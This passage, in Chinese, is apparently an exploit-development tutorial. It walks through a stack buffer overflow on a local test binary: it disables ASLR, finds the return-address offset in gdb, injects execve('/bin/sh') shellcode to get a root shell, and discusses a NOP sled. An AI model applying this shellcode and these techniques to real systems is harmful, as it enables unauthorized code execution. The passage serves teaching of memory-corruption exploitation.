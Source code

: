 ### 漏洞利用

为了降低漏洞利用的难度，我们先关闭系统的ASLR机制（地址随机化）。命令`echo 0 > /proc/sys/kernel/randomize_va_space`，将文件的值设置为0（这是临时设置，重启后无效，永久设置，需在/etc/sysctl.conf，添加kernel.randomize_va_space = value）。

```shell
[root@scbox-1596421650158 Documents]# gdb -q --args a.out $(python -c 'print "A" * 140 + "BBBB"')

Reading symbols from /home/scbox/Documents/a.out...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/scbox/Documents/a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-307.el7.1.i686
(gdb) x/10x $esp -160  #缓冲区开头地址为0xffffcff0
0xffffcfe0:	0x0804857f	0xffffcff0	0x00000001	0xf7ffd900
0xffffcff0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd000:	0x41414141	0x41414141
(gdb) x/10x $esp -20
0xffffd06c:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd07c:	0x42424242	0x00000000	0xffffd114	0xffffd120
0xffffd08c:	0xf7fd86b0	0x00000001
```

在shell中$()表示执行输入的命令，这里我们将a.out的输入参数变为140个A+4个B。可以看到程序发生了segmentation fault错误，就是因为返回地址变为了0x42424242。打印esp也可以看到我们的填充是成功了的。

那么接下来我们使用sehllcode来填充buffer，剩余的用A字符，最后的返回地址填buffer的起始地址，这样程序跳转到返回地址执行的时候，就会执行我们的shellcode。

```shell
$ gdb -q --args a.out $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (140 - 24) + "\xf0\xcf\xff\xff"')
Reading symbols from /home/scbox/Documents/a.out...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/scbox/Documents/a.out 1�Ph//shh/bin��PS�ᙰ
                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
argv[1]: 1�Ph//shh/bin��PS�ᙰ
                            AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
process 16289 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-307.el7.1.i686
sh-4.2#   #进入shell了！
```

以上是在gdb中使用shellcode，但是直接运行shellcode，其实并不能执行，因为gdb会为程序增加一些存储在栈上的环境变量（便于调试），这样的话，栈用得更多，栈地址就会变低。直接运行的时候栈地址比gdb中的高，所以不能执行。

那么我们的解决办法是，把0xffffcff0栈地址增加到0xffffd02c（增加60个字节），然后增加的这部分填充为NOP指令，这样返回地址为60个字节地址中的任意一个，都可以执行到我们的shellcode。
